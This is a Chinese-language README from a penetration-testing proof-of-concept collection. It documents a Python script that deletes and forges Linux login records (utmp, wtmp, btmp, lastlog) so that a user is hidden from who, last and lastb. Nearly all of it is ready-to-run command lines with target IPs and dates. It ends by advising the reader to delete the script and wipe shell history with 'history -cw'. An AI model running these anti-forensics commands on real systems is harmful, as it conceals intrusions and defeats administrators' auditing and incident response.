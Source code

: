 ## 渗透测试TIPS之删除、伪造Linux系统登录日志  
> 来源于[freebuf](https://www.freebuf.com/articles/system/141474.html)，文章备份:[渗透测试TIPS之删除伪造Linux系统登录日志.pdf](渗透测试TIPS之删除伪造Linux系统登录日志.pdf),但是文章脚本失效了,我保存了一份.
### 适用于 Linux 系统，[`fake_login_log.py`](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/ssh/fake_login_log.py) 脚本默认适用于`python2`版本，需要`Root`权限！
## 演示:  
![show img](./fake_login_log.gif)
## USEAGE  
> 首先下载到本地：
> wget https://raw.githubusercontent.com/Mr-xn/Penetration_Testing_POC/master/ssh/fake_login_log.py  
> 没有 wget 的请自行下载 Debian/Ubuntu 使用 sudo apt install wget -y ; Centos 使用yum install wget -y ; 新版的系统一般都默认安装有。
### 删除日志  
1. 删除utmp记录，将自己从w或者who输出中隐藏  
`python fake_login_log.py --mode delete --type utmp --user root` //删除用户为root的用户记录  
`python fake_login_log.py --mode delete --type utmp --user root --host "58.47.251.255" `//删除用户为root且登录来源host为58.47.251.255的用户记录  
2. 删除历史登录记录(wtmp)，隐藏last的记录  
`python fake_login_log.py --mode delete --type wtmp --user root --host "111.30.32.213" `//删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录  
`python fake_login_log.py --mode delete --type btmp --user root --host "172.16.50.156" `//删除用户为root且登录来源host为127.0.0.1的用户记录  
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间  
`python fake_login_log.py --mode delete --type lastlog --host "172.16.50.1" `//删除来源host的用户登录记录  
`python fake_login_log.py --mode delete --type lastlog --date "2017-8-2 22:46:34" `//删除登录时间为2017-8-2 22:46:34的用户登录记录  

### 伪造日志  
1. 伪造utmp记录，将自己从w或者who输出中伪造  
`python fake_login_log.py --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" `//伪造用户为nobody的用户记录  
> 这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找  
2. 伪造历史登录记录(wtmp)，伪造last的记录  
`python fake_login_log.py --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `  
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录  
`python fake_login_log.py --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `//伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录  
4. 伪造lastlog记录  
`python fake_login_log.py --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" `//伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录  

> PS: 执行完这些命令之后删除掉`fake_login_log.py`本身然后使用`history -cw`清除一下历史记录.美滋滋
